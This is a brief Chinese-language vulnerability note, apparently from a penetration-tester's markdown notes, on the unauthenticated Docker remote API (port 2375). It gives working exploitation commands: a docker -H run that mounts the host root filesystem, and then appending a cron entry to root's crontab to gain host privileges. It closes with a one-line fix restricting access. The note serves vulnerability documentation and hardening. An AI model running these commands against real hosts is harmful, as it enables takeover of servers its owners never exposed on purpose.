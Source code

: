 ### 一 漏洞描述
docker 在使用集群管理(如:Kubernetes,swarm)时，要使用remote api对节点进行管理。  
remote api无认证时的默认端口是2375(需要TLS认证默认登录是2376)。  
remote api默认是可以不需要认证能直接访问，能直接对docker进行操作,如新建容器,删除容器,查看镜像容器信息等操作。

### 二 漏洞利用
远程直接挂载
```
docker -H tcp://10.1.1.211:2375 run -it -v /:/mnt nginx:latest /bin/bash
```

写crontab或写.ssh秘钥获取宿主权限(crontab反弹shell会被HIDS抓到)
![img.png](img.png)

```
cd /mnt/var/spool/cron
echo '* * * * * whoami' >> root
```
![img_3.png](img_3.png)


![img_2.png](img_2.png)

### 三 漏洞修复
限制本机访问

> 参考链接  
> http://t.zoukankan.com/devi1-p-13486411.html  
> https://blog.csdn.net/weixin_39531582/article/details/110412285
